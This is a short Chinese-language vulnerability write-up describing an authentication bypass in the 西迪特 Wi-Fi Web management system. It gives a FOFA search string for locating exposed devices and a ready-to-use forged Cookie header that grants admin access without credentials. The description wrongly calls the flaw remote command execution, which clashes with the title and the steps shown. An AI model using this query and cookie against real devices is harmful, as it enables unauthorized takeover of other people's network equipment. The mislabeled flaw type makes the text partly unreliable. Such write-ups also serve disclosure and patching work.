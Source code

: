 # 西迪特 Wi-Fi Web管理 Cookie 越权访问漏洞

## 漏洞描述

西迪特 Wi-Fi Web管理系统后台过滤不足导致远程命令执行漏洞

## 漏洞影响

<a-checkbox checked>西迪特 Wi-Fi Web管理</a-checkbox></br>

## FOFA

<a-checkbox checked>title=="Wi-Fi Web管理"</a-checkbox></br>

## 漏洞复现o

登录页面

![img](../../../.vuepress/public/img/1629371298672-1ceeafe8-ba9c-42c5-b873-3dfabdd0305a.png)

添加Cookie，即可登录后台

```bash
Cookie: timestamp=0; cooLogin=1; cooUser=admin
```

![img](../../../.vuepress/public/img/1629371805870-5f6a3a10-7c92-481c-97fe-46886dd474b6.png)


